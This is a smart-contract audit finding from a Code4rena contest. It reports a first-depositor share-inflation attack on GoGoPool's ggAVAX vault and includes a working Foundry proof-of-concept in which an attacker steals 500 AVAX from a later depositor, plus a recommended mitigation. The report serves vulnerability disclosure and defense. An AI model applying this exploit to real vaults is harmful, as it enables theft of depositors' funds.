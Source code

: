 # Original link
https://github.com/code-423n4/2022-12-gogopool-findings/issues/209
# Lines of code

https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/tokens/upgradeable/ERC4626Upgradeable.sol#L123


# Vulnerability details

## Impact

Inflation of `ggAVAX` share price can be done by depositing as soon as the vault is created.

Impact:
1. Early depositor will be able steal other depositors funds
2. Exchange rate is inflated. As a result depositors are not able to deposit small funds.

## Proof of Concept

If `ggAVAX` is not seeded as soon as it is created, a malicious depositor can deposit 1 WEI of AVAX to receive 1 share. 
The depositor can donate WAVAX to the vault and call `syncRewards`. This will start inflating the price.

When the attacker front-runs the creation of the vault, the attacker: 
1. Calls `depositAVAX` to receive 1 share
2. Transfers `WAVAX` to `ggAVAX`
3. Calls `syncRewards` to inflate exchange rate

The issue exists because the exchange rate is calculated as the ratio between the `totalSupply` of shares and the `totalAssets()`.
When the attacker transfers `WAVAX` and calls `syncRewards()`, the `totalAssets()` increases gradually and therefore the exchange rate also increases.

`convertToShares `:
https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/tokens/upgradeable/ERC4626Upgradeable.sol#L123
```
	function convertToShares(uint256 assets) public view virtual returns (uint256) {
		uint256 supply = totalSupply; // Saves an extra SLOAD if totalSupply is non-zero.

		return supply == 0 ? assets : assets.mulDivDown(supply, totalAssets());
	}
```

Its important to note that while it is true that cycle length is 14 days, in practice time between cycles can very between 0-14 days.
This is because syncRewards validates that the next reward cycle is evenly divided by the length (14 days).

`syncRewards`:
https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/tokens/TokenggAVAX.sol#L102
```
	function syncRewards() public {
----------
		// Ensure nextRewardsCycleEnd will be evenly divisible by `rewardsCycleLength`.
		uint32 nextRewardsCycleEnd = ((timestamp + rewardsCycleLength) / rewardsCycleLength) * rewardsCycleLength;
---------
	}
```

Therefore:
- The closer the call to `syncRewards` is to the next evenly divisible value of `rewardsCycleLength`, the closer the next  `rewardsCycleEnd` will be. 
- The closer the delta between `syncRewards` calls is, the higher revenue the attacker will get.

Edge case example: 
`syncRewards` is called with the timestamp 1672876799, `syncRewards` will be able to be called again 1 second later.
`(1672876799 + 14 days) / 14 days) * 14 days) = 1672876800`

Additionally, the price inflation causes a revert for users who want to deposit less then the donation (WAVAX transfer) amount, due to precision rounding when depositing.

`depositAVAX`:
https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/tokens/TokenggAVAX.sol#L166
```
	function depositAVAX() public payable returns (uint256 shares) {
------
		if ((shares = previewDeposit(assets)) == 0) {
			revert ZeroShares();
		}
------
	}
```

`previewDeposit` and `convertToShares `:
https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/tokens/upgradeable/ERC4626Upgradeable.sol#L133
https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/tokens/upgradeable/ERC4626Upgradeable.sol#L123
```
	function convertToShares(uint256 assets) public view virtual returns (uint256) {
		uint256 supply = totalSupply; // Saves an extra SLOAD if totalSupply is non-zero.

		return supply == 0 ? assets : assets.mulDivDown(supply, totalAssets());
	}
	function previewDeposit(uint256 assets) public view virtual returns (uint256) {
		return convertToShares(assets);
	}
```

### Foundry POC

The POC will demonstrate the below scenario:
1. Bob front-runs the vault creation.
2. Bob deposits 1 WEI of AVAX to the vault.
3. Bob transfers 1000 WAVAX to the vault.
4. Bob calls `syncRewards` when block.timestamp = `1672876799`.
5. Bob waits 1 second.
6. Bob calls `syncRewards` again. Share price fully inflated.
7. Alice deposits 2000 AVAX to vault.
8. Bob withdraws 1500 AVAX (steals 500 AVAX from Alice).
9. Alice share earns her 1500 AVAX (although she deposited 2000).

Additionally, the POC will show that depositors trying to deposit less then the donation amount will revert. 

Add the following test to `TokenggAVAX.t.sol`:
https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/test/unit/TokenggAVAX.t.sol#L108
```
	function testShareInflation() public {
		uint256 depositAmount = 1;
		uint256 aliceDeposit = 2000 ether;
		uint256 donationAmount = 1000 ether;
		vm.deal(bob, donationAmount  + depositAmount);
		vm.deal(alice, aliceDeposit);
		vm.warp(1672876799);

		// create new ggAVAX
		ggAVAXImpl = new TokenggAVAX();
		ggAVAX = TokenggAVAX(deployProxy(address(ggAVAXImpl), address(guardian)));
		ggAVAX.initialize(store, ERC20(address(wavax)));

		// Bob deposits 1 WEI of AVAX
		vm.prank(bob);
		ggAVAX.depositAVAX{value: depositAmount}();
		// Bob transfers 1000 AVAX to vault
		vm.startPrank(bob);
		wavax.deposit{value: donationAmount}();
		wavax.transfer(address(ggAVAX), donationAmount);
		vm.stopPrank();
		// Bob Syncs rewards
		ggAVAX.syncRewards();

		// 1 second has passed
		// This can range between 0-14 days. Every seconds, exchange rate rises
		skip(1 seconds);

		// Alice deposits 2000 AVAX
		vm.prank(alice);
		ggAVAX.depositAVAX{value: aliceDeposit}();

		//Expectet revert when any depositor deposits less then 1000 AVAX
		vm.expectRevert(bytes4(keccak256("ZeroShares()")));
		ggAVAX.depositAVAX{value: 10 ether}();

		// Bob withdraws maximum assests for his share
		uint256 maxWithdrawAssets = ggAVAX.maxWithdraw(bob);
		vm.prank(bob);
		ggAVAX.withdrawAVAX(maxWithdrawAssets);

		//Validate bob has withdrawn 1500 AVAX 
		assertEq(bob.balance, 1500 ether);

		// Alice withdraws maximum assests for her share
		maxWithdrawAssets = ggAVAX.maxWithdraw(alice);
		ggAVAX.syncRewards(); // to update accounting
		vm.prank(alice);
		ggAVAX.withdrawAVAX(maxWithdrawAssets);

		// Validate that Alice withdraw 1500 AVAX + 1 (~500 AVAX loss)
		assertEq(alice.balance, 1500 ether + 1);
	}
```

To run the POC, execute:
```
forge test -m testShareInflation -v
```

Expected output:
```
Running 1 test for test/unit/TokenggAVAX.t.sol:TokenggAVAXTest
[PASS] testShareInflation() (gas: 3874399)
Test result: ok. 1 passed; 0 failed; finished in 8.71s
```

## Tools Used

VS Code, Foundry

## Recommended Mitigation Steps

When creating the vault add initial funds in order to make it harder to inflate the price. 
Best practice would add initial funds as part of the initialization of the contract (to prevent front-running).